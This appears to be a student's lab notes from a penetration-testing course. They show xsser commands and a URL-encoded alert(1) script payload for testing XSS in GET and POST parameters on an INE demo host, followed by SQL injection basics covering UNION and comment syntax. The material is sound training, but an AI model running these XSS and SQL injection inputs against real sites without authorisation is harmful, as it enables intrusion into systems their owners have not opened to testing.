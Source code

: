 ### XSSER Lab

Use burpsuite proxy to determine reqs sent. Both GET and POST are tested

Example XSSER usage:
POST
```bash
`xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```
Try Random payloads
```bash
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```
Custom alert payload
```bash
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```
Insert the final payload spit out by XSSER into the POST param in burpsuite
Eg payload,
target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS

GET
simply put XSS into the GET req
```bash
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote"
```
Custom payload and final payload same as POST req above.


# SQL injections
#sqlinjection #sqli 

Regular SQL statements
```sql
> SELECT name,description FROM products WHERE id=9;
```

```bash
SELECT <columns list> FROM <table> WHERE <condition>;
#also possible to select constants
SELECT 22, 'string', 0x12, 'another string';
```

UNION
adds a new row below thr first statement 
``` bash
<SELECT statement> UNION <other SELECT statement>;
```

Comments 
# (hash symbol)
--  (2 dashes followed by a space)
